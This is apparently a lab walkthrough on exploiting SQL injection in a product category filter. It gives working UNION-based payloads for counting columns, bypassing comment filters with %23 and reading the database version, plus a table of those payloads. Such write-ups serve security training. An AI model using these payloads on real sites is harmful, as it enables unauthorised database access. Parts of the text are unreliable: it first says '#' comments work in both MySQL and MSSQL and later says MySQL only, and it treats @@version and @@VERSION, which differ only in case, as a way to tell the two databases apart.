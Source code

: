 # 🛠️ SQL Injection Walkthrough: Querying Database Type & Version on MySQL and Microsoft  
## 🔍 Step-by-Step Guide to Solving the Lab  

## 🎯 Objective

**To exploit a SQL injection vulnerability in the product category filter and display the database version string.**

This lab simulates a vulnerable web application where:
- The backend uses either **MySQL** or **Microsoft SQL Server (MSSQL)**.
- Standard SQL injection payloads like `' ORDER BY 1--` may fail due to **comment filtering**, but alternatives like `#` (URL-encoded as `%23`) work.

## 🧪 Lab Overview

You're targeting a URL parameter that filters products by category:

```
GET /filter?category=<INJECT_HERE>
```

Through this walkthrough, you'll learn how to:
- Identify SQL injection vulnerability
- Bypass comment filtering using `#` instead of `--`
- Enumerate column count
- Inject payloads to retrieve database version
- Adapt your approach based on DBMS behavior

## 🧭 Step-by-Step Walkthrough

### 🔹 Step 1: Confirm SQL Injection Vulnerability

Start by testing if the input is injectable.

```http
GET /filter?category='
```

✅ If it breaks the query or shows an error → SQL injection point exists.

### 🔹 Step 2: Determine Number of Columns Using `ORDER BY`

Try using `ORDER BY` to guess how many columns are returned.

#### ❌ This fails:
```http
GET /filter?category='+ORDER+BY+1--
```

❌ No result or error occurs → Likely because the backend **filters or blocks `--` comments**.

#### ✅ This works:
```http
GET /filter?category='+ORDER+BY+1%23 
```

> `%23` is the URL-encoded representation of `#`, which is also a valid comment in MySQL and MSSQL.

Now test for column count:

```http
GET /filter?category='+ORDER+BY+1%23   → ✅ Works  
GET /filter?category='+ORDER+BY+2%23   → ✅ Works  
GET /filter?category='+ORDER+BY+3%23   → ❌ Fails  
```

✅ Confirmed: There are **2 columns**.

### 🔹 Step 3: Use `UNION SELECT` to Inject Data

Now try injecting data using `UNION SELECT`.

```http
GET /filter?category='+UNION+SELECT+NULL,NULL%23
```

✅ If page loads normally → Payload executed successfully.

### 🔹 Step 4: Find Which Column Displays Text

Test which of the two columns displays text:

```http
GET /filter?category='+UNION+SELECT+'a',NULL%23   → ❌ No output  
GET /filter?category='+UNION+SELECT+NULL,'a'%23   → ✅ Output shown  
```

✅ Confirmed: Only the **second column** is visible.

So, all useful injected data must be placed in the **second column**.

### 🔹 Step 5: Try to Identify the Database Type

Try injecting DB-specific syntax to determine whether it's **MySQL** or **MSSQL**.

#### 🟡 Try MySQL version syntax:
```http
GET /filter?category='+UNION+SELECT+NULL,@@version%23
```

✅ If this returns something like:
```
5.7.26-0ubuntu0.18.04.1-log
```
→ You're dealing with **MySQL**.

#### 🟡 Try MSSQL version syntax:
```http
GET /filter?category='+UNION+SELECT+NULL,@@VERSION%23
```

✅ If this returns something like:
```
Microsoft SQL Server 2019 - 15.0.2000.5
```
→ You're dealing with **MSSQL**.

### 🔹 Step 6: Display Database Version String

Once you’ve identified the DBMS, use the appropriate payload to show the version.

#### ✅ For MySQL:
```http
GET /filter?category='+UNION+SELECT+NULL,@@version%23
```

#### ✅ For MSSQL:
```http
GET /filter?category='+UNION+SELECT+NULL,@@VERSION%23
```

✅ Success! You've retrieved the database version — Lab complete.

## 📋 Summary of Payloads Used

| Goal | Payload |
|------|---------|
| Confirm vuln | `'` |
| Check column count | `' ORDER BY 1%23` through `' ORDER BY 3%23` |
| UNION select test | `' UNION SELECT NULL,NULL%23` |
| Identify visible column | `' UNION SELECT NULL,'a'%23` |
| Get DB version (MySQL) | `' UNION SELECT NULL,@@version%23` |
| Get DB version (MSSQL) | `' UNION SELECT NULL,@@VERSION%23` |

## 🧠 Why Did `--` Fail But `#` Work?

In SQL, both `--` and `#` are valid comment indicators — **but only in certain databases**:

| Comment Style | Supported By | Notes |
|---------------|--------------|-------|
| `--`          | MySQL, MSSQL, PostgreSQL | Requires space after `--` in some cases |
| `#`           | MySQL only   | Not supported by MSSQL or PostgreSQL |

In this lab:
- `--` was likely filtered or sanitized by the backend.
- `#` worked because the backend used **MySQL**, which supports it.
- We used `%23` (URL-encoded `#`) to bypass filters.

Happy hacking! 🔥🕵️‍♂️🛡️
